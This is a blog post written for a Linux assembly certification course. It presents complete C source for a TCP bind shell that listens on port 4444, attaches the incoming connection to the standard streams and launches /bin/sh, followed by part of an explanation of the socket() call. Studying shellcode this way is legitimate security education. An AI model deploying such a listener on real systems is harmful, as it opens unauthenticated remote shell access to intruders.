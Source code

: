 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```
## Analysis of Shell_Bind_TCP.c
First, a socket is created using the socket function. As described in man 2 socket, the function creates an endpoint for communication and returns a file descriptor that refers to that endpoint.

socket() expects a domain argument, a type argument, and a protocol argument.

int sockfd = socket(AF_INET, SOCK_STREAM, 0);

In this case, the domain argument `AF_INET` specifies the IPv4 communication protocol, the type argument `SOCK_STREAM` specifies the connection-based TCP standard for data exchange, and the protocol argument `0` indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)
